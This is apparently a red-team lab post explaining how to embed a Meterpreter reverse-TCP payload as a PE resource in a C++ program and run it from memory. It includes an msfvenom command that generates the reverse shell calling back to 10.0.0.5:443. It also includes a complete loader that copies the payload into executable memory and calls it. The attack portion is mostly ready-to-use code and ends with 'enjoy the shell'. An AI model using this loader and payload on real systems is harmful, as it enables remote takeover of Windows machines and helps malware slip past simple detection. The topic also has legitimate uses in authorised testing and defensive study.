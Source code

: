 ```yaml
---
layout: post
title: "2024-06-18-loading and executing shellcode from portable executable resources"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /loading-and-executing-shellcode-from-portable-executable-resources/
---
```


# Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this (just a snippet):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-33-31.png>)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/\_RastaMouse) tweet:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 13-13-14.png>)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-37-31.png>)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-42-31.png>)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call (shown later in the code):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-43-59.png>)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](<../../.gitbook/assets/Screenshot from 2019-04-21 11-45-49.png>)

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-07-17.png>)

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource:

![](<../../.gitbook/assets/Screenshot from 2019-04-22 17-35-35.png>)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](<../../.gitbook/assets/Peek 2019-04-21 12-30.gif>)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}
@spotheplanet
